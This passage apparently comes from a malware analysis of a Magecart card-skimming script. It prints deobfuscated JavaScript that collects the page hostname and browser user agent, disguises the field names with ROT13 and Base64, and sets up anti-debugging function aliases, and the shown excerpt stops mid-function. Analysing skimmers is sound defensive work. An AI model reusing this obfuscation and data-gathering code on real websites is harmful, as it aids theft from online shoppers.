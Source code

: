 <h6>The following code shows how are prepared the request in reusing the userAgent and informations of the browser opened.This format the data converted in JSON in push as Base64 the data as content of the request. The penultimate novelty is the fact that the group use keyword "let", this allows to define the visibility of the variable on the script. By this way, this hides the value to the dev-tools for debug and getting the result of the code.</h6>

```js
function prepare_header(obj)
{
 obj["ubfganzr"]=prepare_req(window['location']["hostname"]);
 obj["hfre_ntrag"]=prepare_req(navigator["userAgent"]);
 obj["hfre_vq"]=prepare_req('1');
 return obj;
}
function format_resp(argument)
{
 let res=encodeURIComponent(argument)["replace"](/%([a-f0-9]{2})/gi,(_0x1f00b5,rs)=>String["fromCharCode"](parseInt(rs,0x10)));
 return _b(res);
}
var prepare_req=index=> { return req(format_resp(index)); }
var data_storage=r=> { return _a(req(r)); }
function req(dat,resp)
{
 return++resp?String["fromCharCode"]((dat<91)>(dat=dat["charCodeAt"]()+13)?dat:dat-0x1a):dat["replace"](/[a-zA-Z]/g,req);
}
```

<h6>The last functions are the second news implemented by Magecart group, this uses the constructor method and a double of arrays for create aliases of current functions, this has just to execute this method for create the alias function by the constructor for declare it and use it.</h6>

```js
function Alias_Functions(ar,orginal_function,alias)
{
 var sub=function()
 {
  var t=!![];
  return function(c,d)
  {
   var r=t?function()
   {
    if(d)
    {
     var ret=d["apply"](c,arguments);
     d=null;
     return ret;
    }
   }:function(){};
   t=![];
   return r;
  };
 }();
 var ex=sub(this,function()
 {
  var f=function()
  {
   var r1=f["constructor"]("return /" + this + "/")()["compile"]("^([^ ]+( +[^ ]+)+)+[^ ]}");
   return!r1["test"](ex);
  };
  return f();
 });
 ex();
 ar[alias]=ar[orginal_function];
```